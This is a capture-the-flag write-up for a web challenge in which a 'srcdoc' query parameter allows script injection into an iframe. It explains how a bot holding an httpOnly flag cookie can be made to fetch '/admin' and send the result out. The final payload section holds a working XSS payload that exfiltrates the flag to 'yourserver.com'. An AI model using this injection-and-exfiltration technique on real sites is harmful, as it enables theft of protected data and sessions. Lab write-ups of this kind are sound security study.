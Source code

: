 ## Overview

By inspecting the page you will see a `credentialless` iframe and a script.

```html
<script>
  document
    .querySelector("iframe")
    .setAttribute(
      "srcdoc",
      new URLSearchParams(document.location.search).get("srcdoc")
    );
</script>
```

As you can see you can easly inject JS code into the website by using a payload like: `http://localhost:3000/?srcdoc=<script>alert('0')</script>`

## Finding the flag

The website doesn't request an api, means we have to inspect the source code.

```md
./
├── bot.js
├── build-docker.sh
├── Dockerfile
├── flag.txt
├── index.js
├── package.json
```

- `index.js`

  flag location:

```js
const flag = fs.readFileSync("./flag.txt", "utf8").trim();
```

the flag variable isn't exposed at all, is is only used to verify access to `/admin`

```js
function check(req, res, next) {
  console.log("cookie", req.cookies);
  if (flag === req.cookies?.FLAG) {
    return next();
  } else {
    return res.status(403).send("Forbidden");
  }
}

app.get("/admin", check, (req, res) => {
  res.send(req.cookies?.FLAG ?? "flag{something something}");
});
```

## Observation

there's an endpoint that will let a bot visit the provided url

```js
const { visit } = require("./bot");
/* ... */
app.get("/bot", async (req, res) => {
  if (req.query?.url) await visit(req.query.url);
  res.send("If it's done it's done.");
});
```

source code: [bot.js](src/bot.js)

the bot checks if url starts with `http://` before visiting it and sets the cookie value as the flag

```js
if (!url.startsWith("http://")) {
  throw new Error("invalid url");
}
await page.setCookie({
  name: "FLAG",
  value: flag,
  domain: DOMAIN,
  path: "/",
  httpOnly: true,
  secure: true,
  sameSite: "Lax",
});
```

We can't get the flag via document.cookie because of `httpOnly` and we can't get the flag in a request header because of `sameSite=Lax`.
Since the bot can access `/admin` which returns the flag (cookie) we will let the bot use it to expose the flag value and simply send it to our server.

## Payload

```
http://localhost:3000/bot?url=http://127.0.0.1:3000/?srcdoc=<script type="module">
const resp = await parent.fetch("/admin", { credentials: "include" });
fetch(`http://yourserver.com?flag=${await resp.text()}`)
</script>
```

note: replace `http://localhost:3000` with instance ip 
